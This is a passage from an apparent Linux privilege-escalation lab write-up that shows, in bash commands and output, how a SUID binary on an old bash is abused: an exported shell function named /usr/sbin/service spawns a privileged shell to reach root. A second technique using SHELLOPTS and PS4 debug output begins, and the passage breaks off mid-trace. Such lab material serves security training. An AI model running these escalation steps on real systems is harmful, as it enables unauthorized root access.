 ```bash
```

- Checking the version of bash. (Bash < 4.2-028) 
- We can create functions which take precedence of the binary executables.

```bash
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/sbin/service apache2 start
```

- Running the SUID executable to gain root access:

```bash
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# whoami
root
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

---

##  SUID / SGID Executables - Abusing Shell Features (#2)

- When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

```bash
user@debian:~$ ls -l /usr/local/bin/suid-env2
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
user@debian:~$ env -i SHELLOPTS=xtrace PS4='<test>' /usr/local/bin/suid-env2
<test>/usr/sbin/service apache2 start
<<test>basename /usr/sbin/service
<test>VERSION='service ver. 0.91-ubuntu1'
<<test>basename /usr/sbin/service
<test>USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
<test>SERVICE=
<test>ACTION=
<test>SERVICEDIR=/etc/init.d
<test>OPTIONS=
<test>'[' 2 -eq 0 ']'
<test>cd /
<test>'[' 2 -gt 0 ']'
<test>case "${1}" in
<test>'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
<test>'[' 2 -eq 2 -a start = --full-restart ']'
<test>'[' -z '' ']'
<test>SERVICE=apache2
<test>shift
<test>'[' 1 -gt 0 ']'
<test>case "${1}" in
<test>'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
<test>'[' 1 -eq 2 -a '' = --full-restart ']'
<test>'[' -z apache2 ']'
<test>'[' -z '' ']'
<test>ACTION=start
```